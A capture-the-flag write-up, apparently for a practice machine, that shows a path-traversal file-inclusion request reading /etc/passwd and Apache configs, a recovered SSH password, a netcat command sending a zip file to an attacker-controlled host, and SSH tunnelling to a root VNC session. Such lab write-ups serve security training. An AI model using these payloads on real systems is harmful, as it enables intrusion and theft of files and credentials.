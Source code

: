 ### What I Learned

1. Understanding where the root server directory lives is important to enumeration and exploitation
2. Getting a secret.zip file does not mean the end of the CTF

<details>
  <summary><strong>Writeup Summary</strong></summary>
Scan the machine and find a file lookup system. Enumerate the listed files and find a list of additional files. Extract the password from it using shell scripting. Use the new password to get a semi-restricted shell. There is a zipped secrets file. Extract it and unzip it. Check ports and processes. There is a process running that is root level and not normally on linux (Xvnc) listening on port 5801 and 5901.
Create a listener from the kali machine to the target machine and port, then use vncviewer to use the extracted secrets file to to get a root shell. 
</details>
<br>

## Writeup

Scan the machine using nmap
Then scan for all ports

- `nmap -sV -sC -vv -oA nmap/scan 10.129.1.254`

Find that website is vulnerable to LFI php scripts
First query that works is

- Full query in Burp
- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd HTTP/1.1`
- URL for searchbar

  - `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../etc/passwd`
  - Can also get /etc/fstab

![alt text](images/image.png)

Burp Queries that work

- `GET /browse.php?file=/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/httpd.conf HTTP/1.1`

Info gathered from queries

- ServerRoot "/usr/local"
- User home directories
  #Include etc/apache24/extra/httpd-userdir.conf
- /usr/local/apache2/logs/access_log
- /var/log/httpd-access.log
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../usr/local/etc/apache24/extra/httpd-ssl.conf`
- `/usr/local/www/apache24/data/browse.php?page=../../../../../../../../../../var/log/httpd-access.log HTTP/1.1`

![alt text](images/image-1.png)

Find hash on pwdbackup.txt. Decoded is :
`Charix!2#4%6&8(0`

Ssh into poison using charix:Charix!2#4%6&8(0

Transfer the zip file to Kali
On the target machine run  
`nc -w 5 <KALI_IP> <PORT_NUM> < filename.txt`  
On Kali run  
`nc -lp <PORT_NUM> > filename.txt`

Unzip the secret.zip file

- `7z x -p'Charix!2#4%6&8(0' secret.zip`
- `[|Ֆz!`
- Output is unintelligible

Check what processes are running

- ps -auxw

Find a root process running Xvnc - not normally run
Try to find programs running

- Open processes in a window to search and use regex "/SEARCH"
  - Ps -auxw | less -w
  - A program called vnc is running
  - /usr/local/share/tightvnc/classes -auth /r

Check what ports are listening

- Netstat -an | grep LIST
  - Find 2 localports listening on 127.0.0.1 ports 5801 and 5901

Set up an ssh on the kali machine listening on LOCALHOST:6789 that forwards traffic to port 5901 on the remote ssh charix session's machine

- `ssh -L 6789:127.0.0.1:5901 charix@10.129.216.122`
  Then use the listener port to use vncviewer on the remote port of the target machine and use the secret file password
  - `vncviewer 127.0.0.1:6789 -passwd ./secret`

